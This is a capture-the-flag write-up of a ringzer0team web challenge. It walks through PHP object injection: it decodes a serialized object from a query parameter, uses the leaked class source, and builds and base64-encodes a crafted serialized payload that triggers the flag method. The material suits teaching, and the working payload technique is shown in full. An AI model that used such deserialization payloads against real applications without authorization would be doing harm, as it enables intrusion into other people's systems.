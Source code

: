 ```yaml
---
layout: post
title:  "Writeup - ringzer0team.com challenges (web 41) - 'Serial Killer!'"
date:   2018-05-21 11:14:41 -0400
categories: ringzer0team.com writeup
---
```

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-init.png)
This challenge initially displays a timestamp on the page. Digging into the request being sent, notice that there is a base64 encoded string within the GET request:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-base64.png)

When decoded, this is immediately recognizable as a serialized PHP object:

{% highlight php %}
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":1:{s:6:"action";s:14:"GetCurrentDate";}}
{% endhighlight %}

What happens if we add a single character within the base64 encoded "?o=" serialized value to upset the object structure? A wild stack trace appears:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-stack-trace.png)

Cleaning this up reveals the following PHP code. This shows the same 'RandomClass' class as exists in the discovered serialized string. What if we could inject our own object with arbitrary values and somehow retrieve the flag? In order to do that, we must first understand how the available PHP ['magic methods'](http://php.net/manual/en/language.oop5.magic.php) within the stack trace might assist us. Recommended reading for understanding PHP Object Injection will also be linked at the bottom of this post.

{% highlight php linenos %}
<?php

class RandomClass {

    private static $instance;
    private $uStruct;
    
    public function __construct() {
        $this->uStruct = (object) array();
    }
    
    public static function GetInstance() {
        if (!isset(self::$instance)) {
            self::$instance = new self();
        }
        return self::$instance;
    }

    public function __set($key, $value) {
        $this->uStruct->$key = $value;
    }

    public function __get($key) {
        return $this->uStruct->$key;
    }
    
    public function DoAction() {
        $action = $this->uStruct->action;
        $this->$action();
    }

    public function GetCurrentDate() {
        GetCurrentDate($this->uStruct);
    }

    public function ShowFlag() {
        if ($this->uStruct->time !== null && $this->uStruct->flag == 'Please?') {
            ShowFlag($this->uStruct);
        }
    }

    public function GetOutput() {
        return $this->uStruct->output;
    }
}
?>
{% endhighlight %}

Walking through the PHP code, first notice two private members. Immediately following that is the __construct() method. This magic method is called on each newly-created object, generally utilized for initialization of some sort. Inside the constructor is an empty array cast to an object, which is assigned to $this->uStruct.

From the PHP documentation, ["If a value of any other type is converted to an object, a new instance of the stdClass built-in class is created. If the value was NULL, the new instance will be empty. An array converts to an object with properties named by keys and corresponding values."](http://php.net/manual/en/language.types.object.php#language.types.object.casting)

The next magic method is __set. Reading PHP docs, ["__set() is run when writing data to inaccessible properties."](http://php.net/manual/en/language.oop5.overloading.php#language.oop5.overloading.members). This looks potentially promising. The __get() magic method is also defined here, but what really catches the eyes is the ShowFlag() function. If only it was possible to set the variables $this->uStruct->time and $this->uStruct->flag and retrieve the flag...

With the leak of the RandomClass class, we can create our own serialized object, base64 encode it, and provide as the value for "?o=" within the HTTP query string.

{% highlight php %}
$obj = new RandomClass();
$obj->time = "1";
$obj->flag = "Please?";
$obj->action = "ShowFlag";
echo serialize($obj);
{% endhighlight %}

{% highlight bash %}
root@kali:~/Challenge41# php sploit.php 
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":3:{s:4:"time";s:1:"1";s:4:"flag";s:7:"Please?";s:6:"action";s:8:"ShowFlag";}}

root@kali:~/Challenge41# php sploit.php | hexdump -C
00000000  4f 3a 31 31 3a 22 52 61  6e 64 6f 6d 43 6c 61 73  |O:11:"RandomClas|
00000010  73 22 3a 31 3a 7b 73 3a  32 30 3a 22 00 52 61 6e  |s":1:{s:20:".Ran|
00000020  64 6f 6d 43 6c 61 73 73  00 75 53 74 72 75 63 74  |domClass.uStruct|
00000030  22 3b 4f 3a 38 3a 22 73  74 64 43 6c 61 73 73 22  |";O:8:"stdClass"|
00000040  3a 33 3a 7b 73 3a 34 3a  22 74 69 6d 65 22 3b 73  |:3:{s:4:"time";s|
00000050  3a 31 3a 22 31 22 3b 73  3a 34 3a 22 66 6c 61 67  |:1:"1";s:4:"flag|
00000060  22 3b 73 3a 37 3a 22 50  6c 65 61 73 65 3f 22 3b  |";s:7:"Please?";|
00000070  73 3a 36 3a 22 61 63 74  69 6f 6e 22 3b 73 3a 38  |s:6:"action";s:8|
00000080  3a 22 53 68 6f 77 46 6c  61 67 22 3b 7d 7d        |:"ShowFlag";}}|
0000008e

root@kali:~/Challenge41# php sploit.php | base64
TzoxMToiUmFuZG9tQ2xhc3MiOjE6e3M6MjA6IgBSYW5kb21DbGFzcwB1U3RydWN0IjtPOjg6InN0
ZENsYXNzIjozOntzOjQ6InRpbWUiO3M6MToiMSI7czo0OiJmbGFnIjtzOjc6IlBsZWFzZT8iO3M6
NjoiYWN0aW9uIjtzOjg6IlNob3dGbGFnIjt9fQ==
{% endhighlight %}

Based on a review of the code, this object we have constructed should be suitable to reach the ShowFlag() method properly, considering that **(a)** $this->uStruct->time is not null, **(b)** $this->uStruct->flag is set to 'Please?', and **(c)** $obj->action is set to 'ShowFlag'. Sending this payload results in the flag being displayed on the page.

![Flag]({{ site.baseurl }}/images/rz-flag.png)

Useful resources to learn more about PHP Object Injection:
[https://www.nds.rub.de/media/hfs/attachments/files/2010/03/hackpra09_fu_esser_php_exploits1.pdf](https://www.nds.rub.de/media/hfs/attachments/files/2010/03/hackpra09_fu_esser_php_exploits1.pdf)
[https://www.alertlogic.com/blog/writing-exploits-for-exotic-bug-classes-unserialize()/](https://www.alertlogic.com/blog/writing-exploits-for-exotic-bug-classes-unserialize()/)
[https://www.notsosecure.com/remote-code-execution-via-php-unserialize/](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/)
[https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf](https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf)
[https://www.insomniasec.com/downloads/publications/Deserialization%20-%20%20What%20Could%20Go%20Wrong.pdf](https://www.insomniasec.com/downloads/publications/Deserialization%20-%20%20What%20Could%20Go%20Wrong.pdf)
[https://websec.files.wordpress.com/2010/11/rips_ccs.pdf](https://websec.files.wordpress.com/2010/11/rips_ccs.pdf)
[https://tom.vg/2013/09/wordpress-php-object-injection/](https://tom.vg/2013/09/wordpress-php-object-injection/)
[https://www.tarlogic.com/en/blog/how-php-object-injection-works-php-object-injection/](https://www.tarlogic.com/en/blog/how-php-object-injection-works-php-object-injection/)
[https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
[https://securitycafe.ro/2015/01/05/understanding-php-object-injection/](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
